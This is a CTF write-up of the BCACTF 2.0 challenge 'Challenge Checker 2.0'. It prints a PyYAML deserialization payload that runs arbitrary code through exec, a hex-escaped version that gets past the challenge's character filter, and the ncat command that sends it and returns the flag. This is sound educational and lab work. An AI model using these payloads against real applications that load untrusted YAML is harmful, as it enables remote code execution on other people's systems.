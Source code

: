 # Challenge Checker 2.0 

#### Category : misc
#### Points : 200 points (59 solves)
#### Author : anli, Edward Feng

## Challenge
New version, better security, right?

-   [chall.yaml](https://objects.bcactf.com/bcactf2/challenge-checker-2/chall.yaml)
-   [requirements.txt](https://objects.bcactf.com/bcactf2/challenge-checker-2/requirements.txt)
-   [verify.py](https://objects.bcactf.com/bcactf2/challenge-checker-2/verify.py)
-   `nc misc.bcactf.com 49154`

## Solution

#### Bypassing the new version
Comparing to [Challenge Checker](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/Challenge%20Checker), we see from `requirements.txt` that the version has been upgraded to PyYAML 5.3.1 but it still has vulnerabilites.

Looking at https://hackmd.io/@harrier/uiuctf20,
it seems that the update is to block special characters like `.` and `_`.

To bypass this we change our payload from
```bash
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('cat flag.txt')"
 ```
 
 to
 ```bash
 !python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('cat flag\x2etxt')"
 ```
 
 So we basically changed special characters to their hex escaped values in order to bypass the regex check.
 
 #### Getting flag.txt
 Now  we just need to send the payload to the server
 
 ```bash
$ cat payload| ncat misc.bcactf.com 49154                                         
 
Paste in your chall.yaml file, then send an EOF:
bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}
Fatal error: Data must be a dictionary
```

flag : `bcactf{y0u_r3ally_0verc00k3d_th05e_yams_j5fc9g}`

#### Note
I used ncat instead of nc to send the payload because I was having some problems sending EOF with nc.
 